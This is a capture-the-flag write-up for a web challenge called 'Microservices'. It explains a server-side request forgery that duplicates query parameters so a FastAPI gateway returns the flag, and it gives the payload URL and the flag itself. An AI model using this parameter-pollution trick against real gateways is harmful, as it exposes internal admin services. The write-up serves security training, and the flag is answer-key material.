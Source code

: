 # Microservices
Difficulty: Medium

Category: Web

### Description:

Mặc dù mới bắt đầu học về Microservice nhưng mình tin rằng trang web của mình đủ khả năng chống lại các hacker lỏ.
 
Nếu không tin thì bạn có thể vào đây thử: [here (insert url)](#)

### Concepts

Server Side Request Forgery (SSRF)

### Solution

1. Make use of multiple of the same arguments
2. Enter the URL of the homepage into the gateway
3. The FastAPI gateway will return the flag

### Payload
```
http://localhost:3000/?service=admin_page&service=home_page&url=http://home_page
```

### Flag
`ehctf{oi_kh0ng!_h4cker_l0r_manh_den_vay_sa0!!}`
